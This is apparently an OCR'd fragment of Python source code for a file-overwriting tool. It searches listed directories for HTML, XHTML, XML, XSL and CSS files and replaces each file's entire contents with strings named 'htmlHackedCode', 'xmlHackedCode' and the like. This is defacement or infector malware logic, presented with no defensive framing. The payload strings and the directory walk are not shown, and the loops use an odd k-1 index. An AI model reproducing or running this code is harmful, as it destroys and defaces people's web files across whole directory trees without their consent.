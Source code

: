def findHTML():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredHTML = fnmatch.filter(filesInsideDir, '*.html')
    filteredHTML.extend(fnmatch.filter(filesInsideDir, '*.htm'))
    filteredHTML.extend(fnmatch.filter(filesInsideDir, '*.xhtml'))
    if len(filteredHTML) > 0:
        for k in range(len(filteredHTML)):
            pathsToHTML.append(dirNameOfDir + "\\" + filteredHTML[k - 1])
        populateHTML()
def populateHTML():
    for l in range(len(pathsToHTML)):
        HTMLFile = open(pathsToHTML[l - 1], "w")
        HTMLFile.write(htmlHackedCode)
        HTMLFile.close()

def findXML():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredXML = fnmatch.filter(filesInsideDir, '*.xml')
    if len(filteredXML) > 0:
        for k in range(len(filteredXML)):
            pathsToXML.append(dirNameOfDir + "\\" + filteredXML[k - 1])
        populateXML()
def populateXML():
    for l in range(len(pathsToXML)):
        XMLFile = open(pathsToXML[l - 1], "w")
        XMLFile.write(xmlHackedCode)
        XMLFile.close()

def findXSL():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredXSL = fnmatch.filter(filesInsideDir, '*.xsl')
    if len(filteredXSL) > 0:
        for k in range(len(filteredXSL)):
            pathsToXSL.append(dirNameOfDir + "\\" + filteredXSL[k - 1])
        populateXSL()
def populateXSL():
    for l in range(len(pathsToXSL)):
        XSLFile = open(pathsToXSL[l - 1], "w")
        XSLFile.write(xslHackedCode)
        XSLFile.close()

def findCSS():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredCSS = fnmatch.filter(filesInsideDir, '*.css')
    if len(filteredCSS) > 0:
        for k in range(len(filteredCSS)):
            pathsToCSS.append(dirNameOfDir + "\\" + filteredCSS[k - 1])
        populateCSS()
def populateCSS():
    for l in range(len(pathsToCSS)):
        CSSFile = open(pathsToCSS[l - 1], "w")
        CSSFile.write(cssHackedCode)
        CSSFile.close()
